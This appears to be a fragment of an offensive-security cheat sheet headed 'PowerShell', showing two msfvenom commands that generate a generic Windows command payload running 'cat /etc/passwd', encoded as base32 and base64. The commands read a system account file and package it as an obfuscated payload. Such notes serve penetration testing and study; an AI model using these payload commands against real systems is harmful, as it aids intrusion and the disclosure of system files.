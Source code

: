 # PowerShell

## Encoding Scheme

### Base32

```
$ msfvenom -p cmd/windows/generic cmd="cat /etc/passwd" -f base32
```

### Base64

```
$ msfvenom -p cmd/windows/generic cmd="cat /etc/passwd" -f base64
```